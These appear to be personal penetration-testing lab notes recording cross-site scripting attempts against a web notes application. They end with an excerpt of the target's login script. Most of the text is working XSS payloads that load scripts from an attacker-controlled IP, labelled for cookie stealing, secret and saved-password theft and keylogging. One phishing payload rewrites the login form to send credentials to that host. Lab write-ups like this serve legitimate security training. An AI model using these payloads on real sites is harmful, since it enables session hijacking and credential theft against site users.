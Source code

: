 stealing cookies
```bash
<script src="http://192.168.49.61:80/xss_stealing_cookies.js"></script>
```
localsecrets
```bash
<script src="http://192.168.49.61:80/localsecrets.js"></script>
```
saved passwords
```bash
<script src="http://192.168.49.61:80/savedpasswords.js"></script>
```
keylogging
```bash
<script src="http://192.168.49.61:80/keylogging.js"></script>
```
- all submitted
![[Pasted image 20250106105554.png]]
- reporting all
![[Pasted image 20250106105618.png]]
- all notes `under review` now prompting an admin to look at them
![[Pasted image 20250106105651.png]]
	- got `200` error after waiting for rev
	- iews
	- still no cookie or anything though this makes me think its a `CSRF` and not an `XSS`
![[Pasted image 20250106110238.png]]


```bash
jQuery.getScript('http://192.168.49.61:80/xsscinco.js')
```

###### Payload 6 - `PHISHING USERS`
phishing.js
```js
fetch("login").then(res => res.text().then(data => {
	document.getElementsByTagName("html")[0].innerHTML = data
	document.getElementsByTagName("form")[0].action = "http://192.168.49.61"
	document.getElementsByTagName("form")[0].method = "get"
}))
```
Payload
```bash
<script src="http://192.168.49.61:80/phishing.js"></script>
```
#### register.php
- looking at source code there is a `function` that allows logged in users that are marked `isAdmin` to be placed at `admin.php`
- reference to the `mentor` machine 
![[Pasted image 20250106112103.png]]

```js
function login() {
    var username = $('#username').val();
	var password = $('#password').val();
    
	var postBody = "username="+username+"&password="+password;
	fetch('https://'+domain+':8443/api/login', {
		method:'POST',
		mode:'cors',
		credentials:'include',
		headers:{
			'Content-Type':'application/x-www-form-urlencoded;charset=UTF-8'
		},
		body:postBody
```